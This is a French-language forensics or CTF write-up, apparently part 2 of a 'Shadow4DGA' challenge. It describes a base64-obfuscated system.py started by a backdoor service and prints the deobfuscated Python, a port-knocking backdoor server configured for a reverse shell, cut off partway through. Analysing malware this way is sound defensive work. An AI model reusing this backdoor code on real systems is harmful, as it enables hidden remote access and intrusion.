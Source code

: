 # DETECTION - Shadow4DGA - Partie 2

On trouve un fichier [system.py](http://system.py) dans le home (lancé par la backdoor qui est un service). Ce fichier est au début obfuscé en plusieurs partie par une base64 avec des noms exotiques (magic,love,trust,god …) puis évalué par concaténation.

Voici le fichier après deobfuscation:

```python
import os
import pty
import socket
import socketserver
import threading
import time
import subprocess

listen_knock = list()

class KnockThreadedTCPRequestHandler(socketserver.BaseRequestHandler):
    def handle(self):
        _, server_port = self.request.getsockname()
        # print('Ping on {}'.format(server_port))
        global listen_knock
        listen_knock.append({'d': time.time(), 'p': server_port})

class KnockThreadedTCPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass

class backdoor_knock_server:
    def __init__(self, current_ip: str, knock_seq: list[int], reverseshell_host: str, reverseshell_port: int):
        # port knocking backdoor
        self.current_ip = current_ip
        self.knock_seq = knock_seq
        self.servers = []
        # reverseshell information
        self.revsh_host = reverseshell_host
        self.revsh_port = reverseshell_port
        # statement
        self.status = 'down'

    def start(self):
        try:
            if self.status == 'down':
                self.servers = []
                for i in range(3):
                    server = KnockThreadedTCPServer((self.current_ip, self.knock_seq[i]),
                                                    KnockThreadedTCPRequestHandler)
                    server_thread = threading.Thread(target=server.serve_forever)
                    server_thread.daemon = True
                    server_thread.start()
                    self.servers.append(server)
                self.status = 'up'
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False

    def info(self):
        try:
```